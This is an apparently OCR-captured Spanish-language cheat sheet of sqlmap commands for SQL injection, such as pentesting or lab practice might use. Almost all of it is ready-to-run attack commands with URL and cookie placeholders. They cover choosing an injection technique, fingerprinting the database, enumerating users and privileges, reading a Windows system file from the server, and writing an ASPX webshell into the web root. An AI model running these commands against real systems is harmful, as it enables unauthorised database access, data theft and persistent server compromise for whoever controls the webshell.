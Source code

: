 text

---

## 🛠️ Opciones Adicionales Útiles de SQLMAP

### **Para diferentes tipos de payload:**
Time-based blind
sqlmap -u "URL" --cookie="COOKIE" --technique=T

Boolean-based blind
sqlmap -u "URL" --cookie="COOKIE" --technique=B

Union-based
sqlmap -u "URL" --cookie="COOKIE" --technique=U

Error-based
sqlmap -u "URL" --cookie="COOKIE" --technique=E

text

### **Para especificar DBMS:**
sqlmap -u "URL" --cookie="COOKIE" --dbms=mssql

text

### **Para usar proxy (como Burp):**
sqlmap -u "URL" --cookie="COOKIE" --proxy="http://127.0.0.1:8080"

text

---

## 📝 Comandos de Reconocimiento Avanzado

### **Obtener información del DBMS:**
sqlmap -u "URL" --cookie="COOKIE" --banner
sqlmap -u "URL" --cookie="COOKIE" --current-user
sqlmap -u "URL" --cookie="COOKIE" --current-db
sqlmap -u "URL" --cookie="COOKIE" --privileges

text

### **Leer archivos del sistema:**
sqlmap -u "URL" --cookie="COOKIE" --file-read="C:\Windows\System32\drivers\etc\hosts"

text

### **Escribir archivos (webshell):**
sqlmap -u "URL" --cookie="COOKIE" --file-write="shell.aspx" --file-dest="C:\inetpub\wwwroot\shell.aspx"

text

---